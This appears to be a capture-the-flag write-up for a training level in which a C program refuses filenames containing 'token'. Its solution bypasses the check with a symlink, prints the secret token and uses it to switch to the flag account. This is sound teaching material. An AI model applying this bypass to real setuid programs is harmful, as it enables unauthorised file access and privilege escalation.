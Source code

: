 # Level04

#### About

This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :) 
To do this level, log in as the level04 account with the password level04. Files for this level can be found in /home/flag04. 


#### Sources
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
	char buf[1024];
	int fd, rc;

	if(argc == 1) {
		printf("%s [file to read]\n", argv[0]);
		exit(EXIT_FAILURE);
	}

	if(strstr(argv[1], "token") != NULL) {
		printf("You may not access '%s'\n", argv[1]);
		exit(EXIT_FAILURE);
	}

	fd = open(argv[1], O_RDONLY);
	if(fd == -1) {
		err(EXIT_FAILURE, "Unable to open %s", argv[1]);
	}

	rc = read(fd, buf, sizeof(buf));
	
	if(rc == -1) {
		err(EXIT_FAILURE, "Unable to read fd %d", fd);
	}

	write(1, buf, rc);
}
```

#### Solutions

```
ln -s /home/flag04/token /tmp/target
/home/flag04/flag04 /tmp/target
Output:
06508b5e-8909-4f38-b630-fdb148a848a2

su flag04
Password: <-- 06508b5e-8909-4f38-b630-fdb148a848a2
/bin/getflag
```
